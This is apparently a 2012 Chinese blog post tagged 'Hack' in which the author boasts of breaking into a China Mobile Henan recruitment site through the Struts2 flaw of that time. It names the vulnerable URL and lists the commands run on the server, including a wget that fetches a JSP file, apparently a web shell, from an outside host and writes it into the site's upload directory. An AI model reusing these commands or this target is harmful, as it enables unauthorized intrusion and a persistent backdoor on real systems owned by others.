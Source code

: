 title: 河南10086的陷落
id: 267
categories:
  - Hack
date: 2012-12-15 06:05:27
tags:
---

看到struts2出来了，爆了好多大站，手痒，也来搞了一搞。

一个10086的站点就下来了。

[![](http://7xnueu.com1.z0.glb.clouddn.com/2012/12/20121214131828.png "20121214131828")](http://7xnueu.com1.z0.glb.clouddn.com/2012/12/20121214131828.png)

http://www.ha.10086.cn/zhaopin/jobFront/jobFront!seeJobHisFront.action?id=1116
ls /opt/tomcat7.0/webapps/zhaopin/upload

wget -O /opt/tomcat7.0/webapps/zhaopin/upload/help.jsp http://test-mozutaba.rhcloud.com/jsp.txt

echo disable&gt;/opt/tomcat7.0/webapps/zhaopin/upload/read.txt